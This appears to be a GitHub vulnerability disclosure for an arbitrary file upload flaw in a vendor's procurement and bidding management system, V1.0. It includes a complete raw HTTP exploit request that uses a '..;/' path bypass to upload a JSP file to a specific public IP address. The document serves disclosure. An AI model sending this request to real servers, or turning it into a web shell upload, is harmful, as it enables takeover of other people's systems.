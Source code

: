 # Procurement-and-bidding-management-system
There is an arbitrary file upload vulnerability in the procurement and bidding management system
Recurrence of vulnerabilities
1.Problem Description 

There is an arbitrary file upload vulnerability in the procurement and bidding management system of Guangdong Guangling Information Technology Co., Ltd., which can be exploited by attackers to control server permissions.

2.Case reproduction As shown, this is a test site
![image](https://github.com/dubin12345/Procurement-and-bidding-management-system/assets/144758348/51b72abc-c6d8-4dc6-b25e-4082ac71867e)

3.Upload a 1. JSP file with the content of test by constructing malicious data packets

![image](https://github.com/dubin12345/Procurement-and-bidding-management-system/assets/144758348/11ced168-2ef7-4f3d-9162-04446305b6b8)
4.Vulnerability exploit packets

POST //api/..;/commonController.do?parserXml HTTP/1.1
Host: 219.222.48.58
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.135 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: siteTitle=%E6%B1%9F%E8%8B%8F%E4%BC%98%E6%89%AC%E8%8D%AF%E4%B8%9A%E6%9C%89%E9%99%90%E5%85%AC%E5%8F%B8; JSESSIONID=00427D97395E082CCCD88C7A8B6A85C3
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryf1BWcBSfJB2Bf4Zm
Content-Length: 183

------WebKitFormBoundaryf1BWcBSfJB2Bf4Zm
Content-Disposition: form-data; name="file"; filename="1.jsp"
Content-Type: text/plain

test
------WebKitFormBoundaryf1BWcBSfJB2Bf4Zm—


5.Affected version:=V1.0
